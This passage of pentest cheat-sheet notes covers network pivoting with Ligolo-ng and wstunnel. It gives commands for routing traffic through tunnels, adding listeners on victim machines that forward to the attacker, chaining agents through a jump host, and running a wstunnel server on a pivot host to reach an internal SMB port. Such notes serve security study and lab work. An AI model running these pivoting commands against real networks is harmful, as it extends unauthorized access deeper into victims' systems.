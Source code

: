 - **ifconfig**: Check network interfaces on the victim machine.

```ligolo
ligolo-ng » ifconfig
```

- **Static Route**: Add a static route to redirect traffic through the Ligolo tunnel.

```shell
sudo ip r add 172.16.1.0/24 dev ligolo
```

Then start the tunnel
```ligolo
ligolo-ng » start
```

### Bridge Link

Set up a listener on the victim machine to redirect incoming traffic to the attacker machine.

- Configure listener on the proxy

```ligolo
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp
```

### Pivoting Between Machines

Create multiple sessions to pivot between machines by setting up listeners at each hop.

- Configure listener on the jump machine

```ligolo
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

- Connect 2 victim to the jump machine then it connects to attacker

```shell
./agent -connect 172.16.1.110:11601 -ignore-cert
```

## Wstunnel
https://github.com/erebe/wstunnel

To set up a tunnel using `wstunnel` to access port 445 on a remote host (172.16.6.50) through a pivot host (10.129.106.93), you can follow these steps. This setup assumes that you have control over the pivot host and can run `wstunnel` on it.

8. **On the Pivot Host (10.129.106.93):**

   You need to run `wstunnel` in server mode on the pivot host. This will listen for incoming WebSocket connections from your local attack host.

```shell
wstunnel -s 0.0.0.0:8080
```

   This command starts a WebSocket server on the pivot host listening on port 8080.
